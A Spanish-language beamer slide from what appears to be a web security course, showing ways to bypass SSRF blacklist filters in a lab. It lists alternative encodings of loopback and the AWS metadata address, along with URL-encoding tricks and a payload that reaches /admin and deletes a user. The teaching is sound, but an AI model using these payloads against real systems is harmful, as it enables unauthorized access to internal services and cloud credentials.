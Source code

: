 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{SSRF con Filtro Blacklist --- Bypass (Lab 114)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Filtros blacklist --- qué bloquean
  \item La app rechaza URLs que contienen: 127.0.0.1 $\cdot$ localhost $\cdot$ 169.254.169.254
  \item Filtros suelen comparar cadenas $\rightarrow$ vulnerable a representaciones alternativas.
  \item Bypass de 127.0.0.1 / localhost
  \item Representaciones de la loopback:
  \item \cmd{127.1 2130706433 0177.0.0.1 0x7f000001}
  \item \cmd{[::1] ::1 0:0:0:0:0:0:0:1}
  \item Ofuscación de la palabra 'localhost':
  \item \cmd{lOcAlHoSt localtest.me spoofed.burpcollaborator.net}
  \item URL encoding / doble encoding:
  \item \cmd{\%6c\%6f\%63\%61\%6c\%68\%6f\%73\%74 \%2561\%2564\%256d\%2569\%256e}
  \item Bypass de 169.254.169.254 (AWS metadata)
  \item \cmd{http://169.254.169.254/ $\rightarrow$ regla exacta bloqueada}
  \item \cmd{http://169.254.169.254.xip.io/ $\rightarrow$ DNS que resuelve a la IP}
  \item \cmd{http://2852039166/ $\rightarrow$ decimal de la IP}
  \item \cmd{http://0251.0376.0251.0376/ $\rightarrow$ octal}
  \item Lab 114 --- Combinar bypass para acceder a /admin
  \item \cmd{stockApi=http://127.1/admin}
  \item $\rightarrow$ 127.1 es válido en Linux/BSD como alias de 127.0.0.1.
  \item \cmd{stockApi=http://127.1/admin/delete?username=carlos}
  \item Probar varias combinaciones --- distintos parsers de URL interpretan diferente.
  \end{itemize}
\end{frame}
\end{document}

